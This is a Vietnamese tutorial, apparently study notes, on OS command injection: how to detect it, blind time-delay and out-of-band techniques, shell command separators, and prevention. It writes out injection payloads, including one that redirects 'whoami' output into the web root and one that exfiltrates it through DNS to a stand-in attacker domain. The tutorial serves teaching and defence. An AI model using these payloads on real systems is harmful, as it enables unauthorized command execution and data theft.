


# OS COMMAND INJECTION
Trong phần này mình sẽ mô tả cách chèn lệnh hệ điều hành, cách phát hiện và khai thác lỗ hổng. Cách ngăn chặn tấn công

## Chèn lệnh hệ điều hành là sao
Tấn công chèn lệnh hệ điều hành (OS Command Injection), còn được gọi là tấn công chèn lệnh shell, cho phép kẻ tấn công chạy thực thi các lệnh tùy ý xâm phạm ứng dụng.
## Chèn lệnh hệ điều hành
Giả sử có một trang mua sắm đồ điện tử cho phép người dùng xem mặt hàng đó có còn hàng tại một cửa hàng cụ thể hay không. Thông tin này được truy cập thông qua một URL:
```url
https://insecure-website.com/stockStatus?productID=381&storeID=29
```
Để cung cấp thông tin tồn kho ứng dụng phải truy cập nhiều hệ thống cũ. Vì lý do lịch sử, chức năng này được thực hiện bằng cách gọi một lệnh shell với ID sản phẩm và ID cửa hàng làm đối số:
```stockreport.pl 381 29```
Lệnh này xuất ra trạng thái tồn kho của mặt hàng được chỉ định, và trả về kết quả cho người dùng.
Bằng cách đó kẻ tấn công có thể thực hiện chèn lệnh hệ điều hành để thực thi tệp tùy ý.
```shell
& echo pwned &
```
Nếu dữ liệu đầu vào này được gửi trong productID tham số, lệnh mà ứng dụng sẽ thực thi là:
```stockreport.pl & echo pwned & 29```
Kết quả sẽ trả về với khiến 3 lệnh thực thi riêng biệt , lần lượt gửi từng lệnh một. Kết quả trả về cho người dùng:
```shell
Error - productID was not provided
pwned
29: command not found
```
Lệnh được chèn vào echo đã được thực thi và chuỗi được cung cấp đã được hiển thị trong kết quả đầu ra.
## Các lệnh hữu ích

## Các lỗ hổng tấn công chèn lệnh Blind OS
Nhiều trường hợp tấn công chèn lệnh thực thi nhưng kết quả không được trả về response kết quả. 
Bằng cách đó kẻ tấn công chèn lệnh hệ điều hành mù bằng cách sử dụng độ trễ thời gian
> Có thể sử dụng lệnh được chèn để kích hoạt độ trễ thời gian, cho phép kẻ tấn công nhận biết được đã thực thi dựa trên thời gian phàn hồi ứng dụng ping.
> Lệnh này là một cách tốt để thực hiện việc này, vì nó cho phép bạn chỉ định số lượng gói ICMP cần gửi.

```payload
& ping -c 10 127.0.0.1 &
```
Lệnh này khiến ứng dụng thực hiện ping đến bộ điều hợp mạng loopback của nó trong 10 giây.
## Khai thác lỗ hổng tấn công chèn lệnh hệ điều hành ngầm bằng cách chuyển hướng đầu ra
Đôi khi có thể chuyển hướng đầu ra từ lệnh được chèn vào một trong tệp thư mục gốc của trang web, sau đó gọi đến thư mục đó để trích xuất dữ liệu.
nếu ứng dụng cung cấp các tài nguyên tĩnh từ vị trí hệ thống tệp `/var/www/static`, thì bạn có thể gửi đầu vào sau:
```shell
& whoami > /var/www/static/a.txt &
```
Sau đó có thể truy cập `http://example.com/a.txt` để tải xuống tệp và xem kết quả đã thực thi.
## Khai thác lỗ hổng tấn công chèn lệnh hệ điều hành bằng cách kích hoạt OAST (Bằng tần)
Có thể sử dụng một lệnh được chèn vào để kích hoạt tương tác mạng ngoài băng tần với một hệ thống mà bạn điều khiển 
```shell
& nslookup kgji2ohoyw.web-attacker.com &
```
Đoạn mã độc này sử dụng `nslookup` lệnh để thực hiện tra cứu DNS cho tên miền được chỉ định. Kẻ tấn công có thể theo dõi xem quá trình tra cứu có diễn ra hay không, để xác nhận xem lệnh đã được chèn thành công hay chưa.
Bằng cách dó kẻ tấn công tiếp tục chèn lệnh shell và kích hoạt ngoài băng tần như sau:
```shell
& nslookup `whoami`.aaaaaaaaaaaaaa.com &
```
Kết quả DNS tra cứu đến tên miền sẽ hiển thị kết quả `whoami` lệnh
```shell
www.aaaaaaaaaaaaaaaaaaaaaaa-attacker.com
```
## Các phương pháp chèn lệnh hệ điều hành
Một số ký tự đóng vai trò là dấu phân cách lệnh, cho phép các lệnh được nối tiếp nhau. Các dấu phân cách lệnh sau đây hoạt động trên cả hệ thống Windows và Unix:
> &: thực thi lệnh trong nền, cho phép người dùng tiếp tục sử dụng trình thông dịch lệnh.
> &&: Chỉ thực thi lệnh thứ hai nếu lệnh đầu tiên thành công (trả về trạng thái thoát bằng không).
> | : Lấy đầu ra của lệnh đầu tiên và sử dụng nó làm lệnh đầu vào thư 2
> ||: Chỉ thực thi lệnh thứ 2 nếu thứ 1 failed
> ;: Cho phép thực thi liên tiếp các lệnh hệ điều hành

## Cách phòng ngừa các cuộc tấn công chèn lệnh hệ điều hành
> Kiểm tra tính hợp lệ dựa trên danh sách các giá trị được cho phép.
> Kiểm tra xem dữ liệu đầu vào có phải là số hay không.
> Kiểm tra xem dữ liệu đầu vào chỉ chứa các ký tự chữ và số, không có cú pháp hoặc khoảng trắng nào khác.
